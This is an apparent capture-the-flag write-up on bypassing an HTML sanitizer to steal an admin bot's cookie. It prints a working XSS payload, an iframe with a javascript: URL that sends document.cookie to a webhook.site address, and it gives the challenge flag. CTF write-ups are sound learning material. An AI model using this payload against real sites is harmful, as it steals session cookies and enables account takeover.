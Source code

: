 Looks like we won't be able to but any "script" tags anywhere in there. We can
also see it sanitizes attributes, which limits us even more. Our goal here is probably
to steal the admin-bot's cookie again and we will need to inject some javascript
into a tag here.

After messing around for a while, I reached a point where I am able to overwrite
the location of the current session to a different website. I will be using **Webhook** again
because it worked well for me for the last challenge.

Here is my final exploit:
```
<iframe src="javascript:top.location.href='https://webhook.site/b3ead4c5-b498-4d5f-9b82-f6fa49d9639f/?'+document.cookie"></iframe>
```

I will enter a cookie: "XSS = but make it reflected (part 2)" and test it out.

<img src="attempt.PNG" alt="Attempt 1">

When we click on "Take me to my website!", it redirects right away and it is hard to copy
the address right away. For this case, I just base64 encoded it and put together the URL
and submitted it to the admin-bot.

<img src="winner.PNG" alt="We got the flag">

### Flag
`flag{wh0_n33d5_d0mpur1fy}`

### Resources
[Webhook](https://webhook.site/)

---

